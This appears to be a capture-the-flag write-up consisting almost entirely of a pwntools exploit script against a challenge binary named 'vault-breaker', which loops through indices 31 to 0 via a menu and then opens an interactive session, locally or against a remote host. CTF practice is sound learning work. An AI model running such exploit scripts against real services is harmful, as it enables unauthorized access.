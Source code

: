 


# ![image](https://github.com/user-attachments/assets/7ee7128e-ac04-4e1d-82aa-5a774d0cced6)

```
#ab.py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './vault-breaker'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

# exploit starts
# 0x1F == 31
for i in range(31, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))

sh.sendlineafter(b'>', b'2')

sh.interactive()
```

# ![image](https://github.com/user-attachments/assets/ada66c6b-172a-4d73-972b-6d702fda0919)

# ![image](https://github.com/user-attachments/assets/e3a89554-574f-4a17-b5cf-cd40f8613ba0)

